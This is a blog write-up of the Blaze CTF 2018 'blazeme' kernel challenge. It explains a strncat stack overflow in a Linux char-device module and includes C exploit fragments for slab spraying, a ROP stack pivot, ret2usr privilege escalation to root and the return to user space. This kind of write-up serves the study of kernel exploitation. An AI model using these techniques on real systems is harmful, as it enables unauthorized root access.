 ```yaml
---
layout: post
title: blazeme - Blaze CTF 2018
date: '2018-04-25 16:30:00'
---
```


> Kernel exploitation challenge!
> 
> ssh blazeme@18.222.40.104 password: guest
> 
> Download [here](/assets/blaze18/blazeme.tar.gz) (6 MB)
> 
> The flag in this archive is not the real flag. It's there to make you feel good when your exploit works locally.
> 
> Author: crixer

*420 points, 14 Solves, pwn*


We are given the source to a kernel module `blazeme` which creates a char device at `/dev/blazeme` and can be opened, closed, read, and written to. It allows us to write up to `#define KBUF_LEN (64)` bytes into a global buffer `kbuf` which created with kmalloc, then read back up to 64 bytes. It also `strncat`'s `Hello` and the supplied data into a 512 stack buffer and prints it using `printk`, which we can see using `dmesg`.

```bash
$ echo testing > /dev/blazeme
$ dd if=/dev/blazeme bs=10 count=1
testing
$ dmesg | tail -n 1
Hello testing
```

The issue lies in the contatination of the two bits of data:
```c
char str[512] = "Hello ";

if (kbuf != NULL) {
    strncat(str, kbuf, strlen(kbuf));
    printk(KERN_INFO "%s", str);
}
```

Although `kbuf` is only ever 64 bytes long, the amount that is copied is determined by `strlen(kbuf)`. The linux kernel uses the [SLUB allocator ](https://lwn.net/Articles/229984/) by default:

> In the SLUB allocator, a slab is simply a group of one or more pages neatly packed with objects of a given size. There is no metadata within the slab itself, with the exception that free objects are formed into a simple linked list.

This means that if we can allocate a bunch of 64 byte slabs, and fill then with anything but nulls, we can cause `strlen(kbuf)` to be greater that 512 and we have a stack overflow.

As kernel addresses start from `0xffffffff80000000`,  we can create a rop chain containing no null bytes that can be used to smash the stack. Thankfully there was no kaslr/smep/smap so we have fixed kernel addresses and can use `ret2usr` to redirect the control flow to user space. 

```bash
$ cat /proc/cpuinfo | grep flags
flags		: fpu de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm nopl cpuid pni cx16 hypervisor lahf_lm svm 3dnowprefetch retpoline rsb_ctxsw vmmcall
```

After using [extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) to extract the `vmlinux` from the provided `bzImage`, I fired up [ropper](https://github.com/sashs/Ropper) and looked for a stack pivot (xchg, mov, etc) of which there were hundres. I chose `0xffffffff8109c604: mov esp, 0x1740000; ret;` as it would allow me to map a fixed location in user space and build a full rop chain there.

As `Hello ` is also prepended to the data, my payload started with 2 padding bytes to align the stack, followed by 8 of my pivot gadgets:

```c
unsigned long pivot[8];
for (int i = 0; i < 8; ++i) {
  pivot[i] = 0xffffffff8109c604ull;  // mov esp, 0x1740000; ret;
}

char payload[64];
strncpy(payload, "AA", 2);
strncpy(&payload[2], (const char *)pivot, 64);
```

Spraying this around wildly in a loop should hopefully overwrite a saved RIP at some point, moving the stack and giving us control.

```c
int fd = open("/dev/blazeme", O_RDWR);
for (;;) {
  write(fd, payload, 64);;
}
```

So what we need to do now, is make ourselves root by calling `commit_creds(prepare_kernel_cred(0));` and then return from the kernel space to the usersspace process using `swapgs` and `iretq` with the required values on the stack, then spawn a shell. We map our fake stack in to cover `0x1740000` and place our return address in the correct location.

```c
static void kernel_payload() {
  escalate_privs();
  restore_state();
}

int main() {
  unsigned long *fake_stack = mmap((void *)0x1700000, 0x1000000, PROT_READ | PROT_WRITE | PROT_EXEC, 0x32 | MAP_POPULATE | MAP_FIXED | MAP_GROWSDOWN, -1, 0);
  fake_stack[0x40000 / 8] = (unsigned long)kernel_payload;
```

The save and restore methods were taken straight from http://cyseclabs.com/slides/smep_bypass.pdf and most of the rest from the references below. 

The qemu machine had networking enabled, so after statically compiling our exploit `gcc -static -O2 -Wall exploit.c -o exploit` we can `wget` it to the machine and run it.

```bash
$ ./exploit
Spawning shell
$ id
uid=0(root) gid=0(root)
```

[Full exploit code here.](https://github.com/vakzz/ctfs/blob/master/Blaze2018/blazeme/solv.c)


<hr>
### References
Here's a bunch of stuff by [Vitaly Nikolenko](https://twitter.com/vnik5287) which was  great help in learning about kernel exploits:

* <http://cyseclabs.com/slides/smep_bypass.pdf>
* <https://www.trustwave.com/Resources/SpiderLabs-Blog/Linux-Kernel-ROP---Ropping-your-way-to---(Part-2)>
* <https://github.com/vnik5287/kernel_rop/blob/master/rop_exploit.c>
* <https://www.youtube.com/watch?v=6hVHQZ75TV8>
